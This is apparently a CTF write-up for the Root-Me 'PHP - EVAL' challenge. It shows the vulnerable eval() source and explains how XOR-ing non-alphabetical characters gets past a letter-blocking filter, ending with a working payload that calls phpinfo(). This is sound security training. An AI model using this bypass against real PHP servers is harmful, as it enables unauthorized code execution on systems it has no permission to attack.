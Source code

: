 ```yaml
---
title: "PHP - EVAL Rootme"
date: 2024-04-17
categories: [CHALLENGES, PHP - EVAL]
tags: [CHALLENGES, CTF] 
---
```



Hello,  In this Writeup, we will Explain methods for executing non-alphabetical PHP code to bypass PHP filters in [PHP - EVAL](https://www.root-me.org/fr/Challenges/Web-Serveur/PHP-Eval) challenge.

Firstly, we will analyze the source code of the challenge.
```
<head>
</head>
<body>
 
<h4> PHP Calc </h4>
 
<form action='index.php' method='post'>
    <input type='text' id='input' name='input' />
    <input type='submit' />
<?php
 
if (isset($_POST['input'])) {
    if(!preg_match('/[a-zA-Z`]/', $_POST['input'])){
        print '<fieldset><legend>Result</legend>';
        eval('print '.$_POST['input'].";");
        print '</fieldset>';
    }
    else
        echo "<p>Dangerous code detected</p>";
}
?>
</form>
</body>
</html>

```
The PHP script first checks if a POST parameter named  `input`  is present. If the input lacks letters or backticks, it's evaluated as PHP code using eval(), with the result printed on the screen. However, if letters or backticks are detected, it warns of "Dangerous code."

After some Reasearch on google, I found a way to bypass this filter which is `bypass using Non alphabetical char encoding.` Let's Discuss and we can use [onlinegdb](https://www.onlinegdb.com/) to test and run php code easily and faster. In php we can use XOR operator between characters not only numbers to produce another character. 

![img_screenshot](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/c1b4322b-f443-47b2-8b02-fab5c3e1f748)

So, here's the idea of our attack, what if we can reproduce an alphabetical char from  `xoring two non alphabetical chars.`  How can we do that ? 

The XOR operator works like this: When you XOR any two numbers, it produces a result. If you then XOR this result with one of the original numbers, you'll get the other original number. 

We can take a Demo form the following python test on python Interpreter. We can choose character like  `s`  that we want to produce it using XOR operator of two unkown character.

Steps of what we can do: 

1) Getting ASCII decimal of the letter  `s`  which is 115 using ord() function in python.

2) Selecting a random non-alphabetical-char like  `@`  and getting an ASCII decimal of this char which is 64.

3) XORING this two decimal numbers and convert the result into char using chr() in python.

4) Checking if the char is alphabetical char or not and the goal is to be non-alphabetical-char to bypass the filter.

5) Finally, xoring the random non-alphabetical-char and the number resulted from xor operation will give us the letter we need to need.

![img_screenshot1](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/734892cd-9efc-4dd0-b1c7-ea3e436aadb7)

we can now try this small payload in our challenge website:  `"@"^"3"`

![img_screenshot2](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/66e4baa4-2430-46c6-a9e2-5ffd554a6857)

Nice, we can now automate this process using python, I write simple tool to automate this task which 
is [php-non-alphabetical-Encoder](https://github.com/0XMohomiester/PHP-Non-Alphabetical-Encoder.git)

we can now use it to generate `phpinfo` word to execute `phpinfo()` in the server.

```
python3 php-non-alpha-encoder.py phpinfo
("+"^"[").("("^"@").("+"^"[").(")"^"@").("."^"@").("&"^"@").("/"^"@")
```
we can we make a php to call this as php function?
in php, If we declare `$__` as variable ad store the generted string from the tool in it and call it as `$__();` it will be executed as php function we can use it as: 
```
$__ = ("+"^"[").("("^"@").("+"^"[").(")"^"@").("."^"@").("&"^"@").("/"^"@");
$__();
```

![img_screenshot3](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/36cbf8b5-d666-4f00-8797-3c03e61e01c5)

السلام عليكم و رحمة الله وبركاته

